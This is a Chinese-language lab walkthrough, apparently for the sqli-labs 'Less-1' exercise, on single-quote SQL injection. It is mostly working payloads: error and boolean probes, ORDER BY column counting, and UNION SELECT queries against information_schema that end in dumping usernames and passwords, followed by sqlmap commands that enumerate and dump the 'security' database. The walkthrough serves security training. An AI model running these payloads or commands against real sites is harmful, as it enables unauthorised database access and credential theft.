










# Less-1—单引号字符型注入

　　**字符型注入，单引号**

　　通过随机输入id得知用户名和密码,网址后面接?id=1

　　**判断注入类型**

　　?id=1 and 1=1

　　?d=1 and 1=2

　　正常 **说明为字符型注入**

　　**判断注入点**

　　 **?id=1' 报错回显**

　　 **?id=1' and 1=1--+ 正常**

　　 **?id=1' and 1=2--+ 没有报错但不显示信息**

　　**判断列数**

　　**使用 order by 从1逐渐递增 报错停止**

　　 **?id=1' order by 1--+**

　　**由此我们可以确认列数为3（4报错）**

　　**判断数据显示位置**

　　**使用联合查询**

　　 **?id=0' union select 1,2,3--+**

　　**然后就可以插入一些sql语句查询更多**

　　**查找当前使用数据库名**

　　 **?id=-1' union select 1,2,database()--+**

　　**查所有库名**

　　 **?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata --+**

　　**查所有表名**

　　 **?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+**

　　**查找security数据库信息**

　　 **?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+**

　　**查看user表中的列名
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='user'--+**

　　**现在知道了数据库名、数据库中所有的表名，表中的所有列名，剩下的就只剩下查找数据了**

　　 **?id=-1' union select 1,2,group_concat(username ,id , password) from users--+**

---
**sqlmap**

sqlmap -u "ip/Less-1/?id=1"  #检测注入点
![[Pasted image 20260529161026.png]]

sqlmap -u "ip/Less-1/?id=1" --dbs  #列出所有数据表
![[Pasted image 20260529161331.png]]
sqlmap -u "ip/Less-1/?id=1" -D security --tables  #列表
![[Pasted image 20260529161542.png]]

sqlmap -u "ip/Less-1/?id=1" -D security -T users --dump #托数据
![[Pasted image 20260529161804.png]]